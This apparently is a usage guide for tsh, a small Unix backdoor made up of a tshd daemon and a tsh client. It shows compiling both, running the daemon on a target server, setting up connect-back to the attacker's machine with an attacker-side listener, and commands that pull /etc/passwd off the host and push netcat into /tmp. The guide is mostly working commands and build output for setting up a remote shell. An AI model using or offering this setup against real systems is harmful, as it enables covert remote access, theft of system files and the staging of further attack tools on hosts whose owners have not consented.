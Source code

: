Change ```secret```, specify ```SERVER_PORT```. Uncomment and edit ```CONNECT_BACK_HOST``` and ```CONNECT_BACK_DELAY``` directives if you want backconnect. Run make:

```bash
$ make linux_x64
make								\
	LDFLAGS=" -Xlinker --no-as-needed -lutil"	\
	DEFS=" -DLINUX"					\
	tsh tshd
make[1]: Entering directory '/tmp/tsh'
gcc -O3 -W -Wall -DLINUX -c pel.c
gcc -O3 -W -Wall -DLINUX -c aes.c
gcc -O3 -W -Wall -DLINUX -c sha1.c
gcc -O3 -W -Wall -DLINUX -c tsh.c
gcc -Xlinker --no-as-needed -lutil -o tsh pel.o aes.o sha1.o tsh.o
strip tsh
gcc -O3 -W -Wall -DLINUX -c tshd.c
gcc -Xlinker --no-as-needed -lutil -o tshd pel.o aes.o sha1.o tshd.o
strip tshd
make[1]: Leaving directory '/tmp/tsh'
```

Now run ```./tshd``` on server. It will start listening on the specified port. You can connect to it via executing the following command:

```./tsh host_ip```

If ```tsh``` was compiled with backconnect capability, the ```tshd``` daemon will try to connect back to the attacker’s machine. To launch listener on attacker’s side:

```
$ ./tsh cb
Waiting for the server to connect...
```

To transfer files with tsh:

```
./tsh host_ip get /etc/passwd .
./tsh host_ip put /bin/netcat /tmp
```
